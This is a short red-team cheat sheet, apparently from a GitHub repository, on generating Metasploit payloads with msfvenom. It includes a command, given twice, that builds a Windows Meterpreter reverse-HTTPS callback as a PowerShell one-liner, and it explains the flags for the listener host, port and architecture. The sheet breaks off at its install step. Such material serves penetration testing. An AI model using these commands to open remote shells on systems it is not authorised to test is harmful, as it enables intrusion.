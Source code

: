 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Metasploit Payload Generation

* <details><summary>Example (Click to expand)</summary><p>

		msfvenom -p windows/meterpreter/reverse_https lhost=<ip address of listener> lport=<port of listener> -f psh-reflection -a x86 -s 0 > output.txt
	* Flags
		* Required
			* `-a` - Target Architecture
				* Example: `-a x86`
			* `lport` - Listen pot information
				* Example: `lport=1337`
			* `lhost` - Listener host information (hostname or ip)
				* Example: `lhost=<ip_address_or_hostname>`
		* Recommended Optional
			* `-f` - Format
			* .
	* Specific payload options
		* Payload options
			* Staging
				* Single Stage (Recommded)
					* Recommended: `windows/meterpreter/reverse_https`
	* Example Attacks
		* Powershell Meterpreter Callback One-liner

				msfvenom -p windows/meterpreter/reverse_https lhost=<ip address of listener> lport=<port of listener> -f psh-reflection -a x86 -s 0 > output.txt
			* A powershell one-liner to initate a meterpreter callback is very useful when you have execution but not a fully-interactive shell, and therefore must fit your entire command on one line.
		* Process
			1. Install msfvenom (may require metasploit framework)

